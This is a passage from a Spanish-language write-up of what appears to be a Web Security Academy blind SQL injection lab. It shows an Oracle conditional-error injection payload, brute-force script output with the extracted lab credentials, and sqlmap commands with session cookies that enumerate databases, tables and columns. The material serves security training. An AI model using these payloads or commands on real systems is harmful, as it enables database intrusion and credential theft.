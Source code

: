 ```
    makeRequest()
```

`Obtenemos` los `nombres` de `usuario` y sus `contraseñas`

```
# python sqli_conditional_error.py
[o] Fuerza bruta: C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(username || ':' || password, ' ') within group (order by username) from PETER.USERS), 90, 1) = '9')
[┤] Output: administrator%o8o2ftyyxe50qjus5ekp%carlos%nd3ci79kfb08kv2i4azn%wiener%hwxs7o9pmdwyu3i1cf39
```

También podemos `obtener` las `credenciales` usando `sqlmap`, para ello, lo primero es `listar` a los `propietarios`

```
# sqlmap -u https://0a9c00870389b09e81a52afe00530034.web-security-academy.net/ --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX" --threads 2
available databases [7]:
[*] "SYSTEM"
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] XDB
```

`Listamos` las `tablas` del propietario `PETER`

```
# sqlmap -u https://0a9c00870389b09e81a52afe00530034.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX" -D PETER --tables --threads 2 
Database: PETER
[2 tables]
+----------+
| TRACKING |
| USERS    |
+----------+
```

`Listamos` las `columnas` de la tabla `USERS`

```
# sqlmap -u https://0a9c00870389b09e81a52afe00530034.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=lnS9gSlm0CA61ePa*; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX" -D PETER -T USERS --columns --threads 2
Database: PETER
Table: USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | VARCHAR2 |
| PASSWORD | VARCHAR2 |
| USERNAME | VARCHAR2 |
+----------+----------+
```
